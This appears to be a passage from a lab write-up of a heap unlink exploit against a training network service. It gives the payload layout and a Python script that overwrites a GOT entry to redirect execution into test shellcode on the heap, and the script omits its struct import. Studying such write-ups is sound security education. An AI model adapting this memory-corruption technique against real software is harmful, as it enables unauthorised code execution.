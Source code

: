 We want to overwrite the contents of `0x804d41c` with **the address of our shellcode**.

Since `unlink()` adds **12** to the forward pointer, we set:

$$
forward pointer = 0x804d41c - 12 = 0x804d410
$$

And the backward pointer will **point to a place on the heap**.

### Crafting Exploit

We will place our shellcode in the first chunk, starting at `0x804e010`, since the first two DWORDs will be the forward and backward pointers during the first `free()`. And this address will also be our **backward pointer**.

Here is the general format of the two payloads:

```shell
payload1 = FSRD AAAA <payload> AAAA...AAA/
payload2 = FSRD ROOT/ 0xfffffffc 0xfffffffc 0x804d410 0x804e010 AAAA...AAAA
```

The spacing in the payloads is for clarity; it will be removed in the actual exploit.

To check if our exploit executes correctly, we'll use an `INT3` **(0xCC)** instruction. If we hit a `SIGTRAP` signal, it means execution successfully redirects to our shellcode.

```python
import socket

HOST = '127.0.0.1'
PORT = 2993
REQSZ = 128

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

shellcode = "\xcc\xcc\xcc\xcc"

payload1 = "FSRD" + "AAAA" + shellcode
payload1 += "A" * (REQSZ - len(payload1) - 1 ) + "/"

write_got = struct.pack("I", 0x804d410)
heap_return = struct.pack("I", 0x804e010)

payload2 = "FSRDROOT/" + struct.pack("I", 0xfffffffc) + struct.pack("I", 0xfffffffc) + write_got + heap_return
payload2 += "A" * (REQSZ - len(payload2))

s.send(payload1)
s.send(payload2)
```
